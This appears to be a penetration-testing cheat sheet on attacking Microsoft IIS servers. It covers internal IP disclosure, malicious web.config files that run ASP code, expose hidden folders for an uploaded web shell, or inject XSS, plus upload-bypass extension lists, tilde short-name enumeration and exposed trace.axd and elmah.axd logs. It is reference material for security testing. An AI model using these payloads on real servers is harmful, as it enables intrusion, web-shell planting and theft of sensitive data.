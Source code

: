 ## 1) Internal IP Address disclosure

On any IIS server where you get a 302 you can try stripping the Host header and using HTTP/1.0 and inside the response the Location header could point you to the internal IP address:

Response disclosing the internal IP:

```
GET / HTTP/1.0       

HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Location: https://192.168.5.237/owa/
Server: Microsoft-IIS/10.0
X-FEServer: NHEXCHANGE2016

```

## 2) Running web.config as an ASP file

Sometimes IIS supports ASP files but it is not possible to upload any file with .ASP extension. In this case, it is possible to use a web.config file directly to run ASP classic codes:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
```
The web.config file plays an important role in storing IIS7 (and higher) settings. It is very similar to a .htaccess file in Apache web server. Uploading a .htaccess file to bypass protections around the uploaded files is a known technique. Some interesting examples of this technique are accessible via the following GitHub repository: https://github.com/wireghoul/htshells

In IIS7 (and higher), it is possible to do similar tricks by uploading or making a web.config file. A few of these tricks might even be applicable to IIS6 with some minor changes. The techniques below show some different web.config files that can be used to bypass protections around the file uploaders.

### Defaults extensions

* PHP Server
    ```powershell
    .php
    .php3
    .php4
    .php5
    .php7

    # Less known PHP extensions
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    ```
* ASP Server
    ```powershell
    .asp
    .aspx
    .config
    .cer and .asa # (IIS <= 7.5)
    shell.aspx;1.jpg # (IIS < 7.0)
    shell.soap
    ```
* JSP : `.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action`s
* Perl: `.pl, .pm, .cgi, .lib`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`

Removing protections of hidden segments
Sometimes file uploaders rely on Hidden Segments of IIS Request Filtering such as APP_Data or App_GlobalResources directories to make the uploaded files inaccessible directly.

However, this method can be bypassed by removing the hidden segments by using the following web.config file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <security>
            <requestFiltering>
                <hiddenSegments>
                    <remove segment="bin" />
                    <remove segment="App_code" />
                    <remove segment="App_GlobalResources" />
                    <remove segment="App_LocalResources" />
                    <remove segment="App_Browsers" />
                    <remove segment="App_WebReferences" />
                    <remove segment="App_Data" />
                    <!--Other IIS hidden segments can be listed here to remove -->
                </hiddenSegments>
            </requestFiltering>
        </security>
    </system.webServer>
</configuration>
```
Now, an uploaded web shell file can be directly accessible.

Creating XSS vulnerability in IIS default error page
Often attackers want to make a website vulnerable to cross-site scripting by abusing the file upload feature.

The handler name of IIS default error page is vulnerable to cross-site scripting which can be exploited by uploading a web.config file that contains an invalid handler name (does not work in IIS 6 or below):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers>
         <!-- XSS by using *.config -->
         <add name="web_config_xss&lt;script&gt;alert('xss1')&lt;/script&gt;" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="fooo" resourceType="Unspecified" requireAccess="None" preCondition="bitness64" />
         <!-- XSS by using *.test -->
         <add name="test_xss&lt;script&gt;alert('xss2')&lt;/script&gt;" path="*.test" verb="*"  />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   <httpErrors existingResponse="Replace" errorMode="Detailed" />
   </system.webServer>
</configuration>
```

Rewriting or creating the web.config file can lead to a major security flaw. In addition to the above scenarios, different web.config files can be used in different situations. I have listed some other examples below (a relevant web.config syntax can be easily found by searching in Google):


* Re-enabling .Net extensions: When .Net extensions such as .ASPX are blocked in the upload folder.
* Using an allowed extension to run as another extension: When ASP, PHP, or other extensions are installed on the server but they are not allowed in the upload directory.
* Abusing error pages or URL rewrite rules to redirect users or deface the website: When the uploaded files such as PDF or JavaScript files are in use directly by the users.
* Manipulating MIME types of uploaded files: When it is not possible to upload a HTML file (or other sensitive client-side files) or when IIS MIME types table is restricted to certain extensions.

## 3) Microsoft IIS tilde character Vulnerability

You can try to enumerate folders and files inside every discovered folder (even if it's requiring Basic Authentication) using this technique.
The main limitation of this technique if the server is vulnerable is that it can only find up to the first 6 letters of the name of each file/folder and the first 3 letters of the extension of the files.
You can use https://github.com/irsdl/IIS-ShortName-Scanner to test for this vulnerability

## 4) ASP.NET Trace.AXD enabled debugging

ASP.NET include a debugging mode and its file is called trace.axd.
It keeps a very detailed log of all requests made to an application over a period of time.
This information includes remote client IP's, session IDs, all request and response cookies, physical paths, source code information, and potentially even usernames and passwords.

![image](https://user-images.githubusercontent.com/63053441/202226272-ed035d88-ff8d-4495-8108-bf7fdb7dda81.png)


If you find an SSRF vulnerability in an ASP application, try reading trace.axd file. It contains logs of HTTP requests, you can find sensitive information in there.

* https://hackerone.com/reports/519418

Other potential paths:
* Elmah.axd
* Errorlog.axd
  
ELMAH (Error Logging Modules and Handlers) is an application-wide error logging facility that is completely pluggable. It can be dynamically added to a running ASP.NET web application, or even all ASP.NET web applications on a machine, without any need for re-compilation or re-deployment. If ELMAH is not properly configured, the elmah.axd handler can be accessed without authorization. This page will list all the error messages generated by the web application and may disclose sensitive information to an attacker.


## Refrences:
* https://book.hacktricks.xyz/
* https://github.com/swisskyrepo/PayloadsAllTheThings
